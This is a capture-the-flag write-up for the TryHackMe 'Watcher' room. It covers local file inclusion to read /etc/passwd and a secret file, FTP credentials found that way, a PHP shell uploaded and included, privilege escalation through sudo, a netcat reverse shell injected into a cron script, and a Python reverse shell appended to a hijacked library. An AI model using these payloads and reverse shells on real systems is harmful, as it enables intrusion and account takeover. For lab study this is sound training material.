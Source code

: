 # 67 - Watcher (LFI RCE, Python custom library hacking)

Room Link --> [https://tryhackme.com/room/watcher](https://tryhackme.com/room/watcher)

### Enumeration

```
nmap -Pn -n -vv 10.10.177.151 -p- -sV

21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
```

### Flag 1

Navigating to `/robots.txt`&#x20;

```
User-agent: *
Allow: /flag_1.txt
Allow: /secret_file_do_not_read.txt
```

### Flag 2

From the hint we can see a reference to LFI.

Navigating to [http://watcher.thm/post.php?post=/../../../../etc/passwd](http://watcher.thm/post.php?post=/../../../../etc/passwd)

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see 3 users (will, mat, toby) :(

SO i decided to use SecsLists LFI list to bruteforce and see if i can be able to read any file.

`/opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt` .

Then i landed on this:

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i tried to read this file and it worked.

Navigating to [http://watcher.thm/post.php?post=secret\_file\_do\_not\_read.txt](http://watcher.thm/post.php?post=secret\_file\_do\_not\_read.txt)

{% code overflow="wrap" %}
```bash
Hi Mat, The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files. Will ---------- 

# ftp crendentials
ftpuser : givemefiles777
```
{% endcode %}

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Login via ftp and got flag2

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flag 3

#### LFI RCE via Abusing Upload Functions

This was provided as a hint --> [blog](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2/)

{% hint style="info" %}
Again, our goal is to upload an image with PHP commands included. We will use it to append as a comment our PHP command.
{% endhint %}

I our own case we are able to upload a php file directly from the ftp server.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Navigate to: [http://watcher.thm/post.php?post=/home/ftpuser/ftp/files/shell.php](http://watcher.thm/post.php?post=/home/ftpuser/ftp/files/shell.php)

And i got shell.

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flag 3

We find flag3 in `/var/www/html/more_secrets_a9f10a` dir.

### Flag 4

#### Priv Esc to Toby

`sudo -l` - we can execute all cmds as Toby.

`sudo -u toby /bin/bash` - and we are Toby.

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flag 5

We see a cronjob running as user Mat.

We also have RW permission on the cow.sh file. So we modify it with a rev shell.

`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.88.214 9001 >/tmp/f' > cow.sh`&#x20;

Setup nc and we get a shell as Mat.

<figure><img src=".gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flag 6

#### Priv Esc to Will

So `sudo -l` we can run a python script as user Will.

We found 2 scripts inside: cmd.py and will\_script.py. Reading the will\_script.py we see that it is a filter script. It restricts the user from running commands other than ls, id and cat /etc/passwd commands. It uses a python library named cmd. The library asks for a numeric entry and then it runs one of the three command mentioned earlier. Since we have library inside the same directory as the script, we can hijack the library to run a reverse shell python script.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we will use the echo command to insert the python reverse shell script inside the python library script is using i.e., cmd.py. After doing so, we will run a netcat listener on the same port that we mentioned inside the reverse shell script. Now all that is left is to run the python script will\_script.py as will user using sudo.

echo 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.10.73.100",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' >> /home/mat/scripts/cmd.pysudo -u will /usr/bin/python3 /home/mat/scripts/will\_script.py \*

<figure><img src="https://1.bp.blogspot.com/-73AhQIG2Mqc/YKqw_dMTW0I/AAAAAAAAwE0/qKfJbi4XISs4NvslUsvYaQ-Tea4m6lLjgCLcBGAsYHQ/s16000/22.png" alt=""><figcaption></figcaption></figure>

After running the script as will user, we get back to our local machine where we ran the netcat listener earlier.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to root.

So there is a backup dir in the /opt dir. There is a ssh priv key in there it belongs to root.

Done!

